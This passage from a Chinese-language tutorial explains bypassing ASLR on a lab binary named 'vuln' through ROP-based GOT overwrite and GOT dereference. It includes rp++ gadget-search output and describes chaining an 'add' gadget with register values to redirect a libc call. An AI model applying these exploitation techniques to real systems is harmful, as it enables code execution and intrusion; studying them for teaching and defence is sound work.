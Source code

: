 因此，只要将偏移差(0xfffff530)push到栈中，然后返回到“pop EAX”指令，就能将偏移差拷贝到EAX中。但不幸的是，在我们的二进制文件‘vuln’中并不能找到’pop % eax; ret’ gadget。因此，GOT覆盖就变得不可能了。  

栈布局： 下图描绘了利用gadget链接来做到GOT覆盖  
![](../pictures/alsrgotgor1.png)  



## 0X07 利用ROP做到GOT解引用

-Gadget 1: 首先，我们需要一个gadget来讲偏移差添加到GOT[getuid]中，结果需要加载到寄存器中。因此，我们来找出一个’add gadget’将结果拷贝到寄存器中  

``` bash
$ ~/roptools/rp++ --atsyntax -f ./vuln -r 4
Trying to open './vuln'..
Loading ELF information..
FileFormat: Elf, Arch: Ia32
Using the AT&T syntax..
Wait a few seconds, rp++ is looking for gadgets..
in PHDR
0 found.
in LOAD
166 found.
A total of 166 gadgets found.
...
0x08048499: addl $0x0804A028, %eax ; addl %eax, 0x5D5B04C4(%ebx) ; ret ; (1 found)
0x0804849e: addl %eax, 0x5D5B04C4(%ebx) ; ret ; (1 found)
0x08048482: addl %esp, 0x0804A02C(%ebx) ; calll *0x08049F1C(,%eax,4) ; (1 found)
0x0804860e: addl -0x0B8A0008(%ebx), %eax ; addl $0x04, %esp ; popl %ebx ; popl %ebp ; ret ; (1 found)
...
$
```
太棒了，我们找到了一个’add gadget’用来将结果拷贝到寄存器中！现在，如果我们将EBX含有GOT[getuid]+0xb8a0008，EAX含有偏移差，就可以成功执行GOT解引用了！  
